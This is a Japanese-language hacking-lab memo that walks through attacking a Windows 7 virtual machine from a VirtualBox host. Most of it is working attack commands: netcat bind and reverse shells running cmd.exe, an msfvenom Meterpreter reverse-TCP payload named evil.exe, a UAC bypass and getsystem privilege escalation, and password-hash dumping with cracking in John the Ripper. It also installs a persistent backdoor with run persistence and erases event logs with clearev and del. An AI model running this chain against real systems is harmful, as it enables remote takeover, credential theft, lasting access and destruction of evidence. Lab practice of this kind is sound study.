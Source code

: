 # ハッキング・ラボ メモ

## Windowsハッキング

- VirtualBox

  ```bash
  # /etc/vbox/networks.conf ファイルを新規作成。以下を記入
  * 10.0.0.0/24
  ```

  - ホストネットワークマネージャ > 作成
    - アダプター
      - IPv4: 10.0.0.1
      - IPv4マスク: 255.255.255.0
    - DHCPサーバ
      - サーバアドレス: 10.0.0.100
      - サーバマスク: 255.255.255.0
        - アドレス下限: 10.0.0.101
        - アドレス上限: 10.0.0.254
- [Windows7試用ovaファイル](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/)
  - 選択オプション
    - Virtual Machines: IE8 on Win7(x86)
    - VM platform: VirtualBox

```bash
# Windows側
nc.exe -lvp 5555
```

- -l: 待ち受け
- -v: 詳細表示
- -p: ポート番号指定

```bash
netstat -an
```

- -a: すべての接続を表示
- -n: 名前解決しない。サービス名解決しない。

```bash
# Windows側
nc.exe -lvp 5555 -e cmd.exe
# ホスト側
nc [target IP] 5555
```

### リバースシェル

```bash
# ホスト側
nc -lvp 5555
# Windows側
nc.exe [host IP] 5555 -e cmd.exe
```

### Metasploit Framework

- 調査、侵入、攻撃、バックドアの設置・接続。サーバ侵入の一連の攻撃をサポート
- 実践で使われる場面は少ない

```bash
msfconsole

show exploits
```

- Exploitのランク
  - manual < low < average < normal < good < great < excellent
  - excellentが最も望ましく、システムをクラッシュさせることなく任意のコマンドを実行できる

```bash
search type:payload reverse_tcp platform:windows

# TCP型リバースシェルを作成
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 -f exe -o ./evil.exe
# -p: ペイロードのパス
# -f: 出力ファイルの形式
# -o: 出力ファイルのパス
# LHOST: ペイロードのオプション。接続先を指定

# リバースシェルを待ち受ける
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST [ホストIP]
# evil.exeをWindows側で起動した後
# リバースシェルを確立する
exploit
```

```bash
# Meterpreterプロンプトで使用可能
pwd, ls, cd
```

### パスワードハッシュを入手する

```bash
# ユーザ名を確認
getuid
# 権限昇格のため、一旦meterpreterセッションをバックグラウンドへ
background
# UACバイパスモジュール
use exploit/windows/local/bypassuac
set SESSION [セッションNo]
set payload windows/meterpreter/reverse_tcp
set LHOST [ホストIP]
exploit

# ユーザ確認
getuid
# 権限昇格
getsystem -t 1
# ユーザ確認
getuid
# パスワードハッシュダンプ取得
# ※現状は"ArgumentError wrong number of arguments"エラーとなっている
run hashdump
```

```bash
# パスワード解析
john [パスワードファイルパス] --show
john --wordlist=/usr/share/john/password.lst --format:nt .[パスワードファイルパス]
```

```bash
# 通常ユーザのセッションを閉じておく。Windows側のプロセスからevil.exeが消える
sessions -k 1

# システム情報を収集（レジストリ、パスワードハッシュ等。時間がかかる）
sessions 2
run scraper
```

```bash
# Meterpreterプロンプト→シェルに切り替える
shell
# 自動起動の内容を列挙
wmic startup

# 永続的なバックドアを設置
run persistence -X -i 60 -P windows/meterpreter/reverse_tcp -p 4444 -r [ホストIP]
# -X: システム起動時に自動開始
# -i: 接続試行の間隔（秒）
# -P: ペイロードを使用する
# -p: ペイロード接続先ポート
# -r: ペイロード接続先IP
```

```bash
# ログ消去（Application, Security, System）
clearev

# 乱暴なやり方だが、delコマンドで削除することもできる
del %WINDIR%\*. log /a /s /q /f
# /a: 削除ファイルの属性指定
# /s: サブフォルダも対象
# /q: ワイルドカード使用時に確認メッセージを表示しない
# /f: 読み取り専用ファイルを矯正削除
```
